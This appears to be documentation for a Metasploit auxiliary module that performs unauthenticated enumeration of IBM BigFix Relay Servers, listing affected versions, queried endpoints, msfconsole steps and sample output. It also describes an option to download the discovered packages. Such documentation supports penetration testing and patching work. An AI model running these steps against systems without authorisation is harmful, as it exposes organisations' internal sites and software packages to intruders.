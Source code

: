## Description

This module performs unauthenticated requests to retrieve masthead, sites, and packages information from IBM BigFix Relay Servers. If the **DOWNLOAD** option is set then the module will attempt to download the identified packages. This module has been tested against Relay Server 9.5.10.79.

## Vulnerable Application

BigFix Platform 9.2 - 9.2.16 and 9.5 - 9.5.11

## Options

### SHOW_MASTHEAD

Default: true. Read Organization name from `/masthead/masthead.axfm`

### SHOW_PACKAGES

Default true. Read Action values and packages names from `/cgi-bin/bfenterprise/BESMirrorRequest.exe`

### SHOW_SITES

Default true. Read Site URLs from `/cgi-bin/bfenterprise/clientregister.exe?RequestType=FetchCommands`

### DOWNLOAD

Default true. Attempt to download identified packages.

### ShowURL

Default false. Show full URL for the packages instead of the filename.

## Verification Steps

1. `./msfconsole -q`
2. `use auxiliary/gather/ibm_bigfix_sites_packages_enum`
3. `set rhosts <rhost>`
4. `exploit`

## Scenarios

### Relay Version 9.5.10.79

```
msf > use auxiliary/gather/ibm_bigfix_sites_packages_enum
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) > set rhosts <rhost>
rhosts => <rhost>
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) > exploit
[*] Running module against [IP]

[+] [Organization]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/actionsite
[+] http://[hostname]:52311/cgi-bin/bfenterprise/PostResults.exe
<snip>
[*] Sites
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
[+] http://[hostname]:52311/cgi-bin/bfgather.exe/[site]
<snip>
[*] Packages
[*] Action: [action number]
[+] File: [package name]
[*] Action: [action number]
[+] File: [package name]
<snip>
[*] Auxiliary module execution completed
msf auxiliary(gather/ibm_bigfix_sites_packages_enum) >
```
